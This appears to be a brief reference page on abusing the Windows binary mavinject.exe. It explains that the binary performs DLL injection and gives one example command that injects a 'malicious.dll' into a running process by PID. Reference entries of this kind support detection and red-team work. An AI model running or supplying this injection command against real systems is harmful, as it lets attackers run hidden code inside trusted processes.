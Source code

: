# What is it?
*mavinject.exe is used for DLL injection.*

## How to abuse it
- *Injects malicious DLLs into processes.*

## Example Attack
```
mavinject.exe <PID> /INJECTRUNNING C:\malicious.dll
```
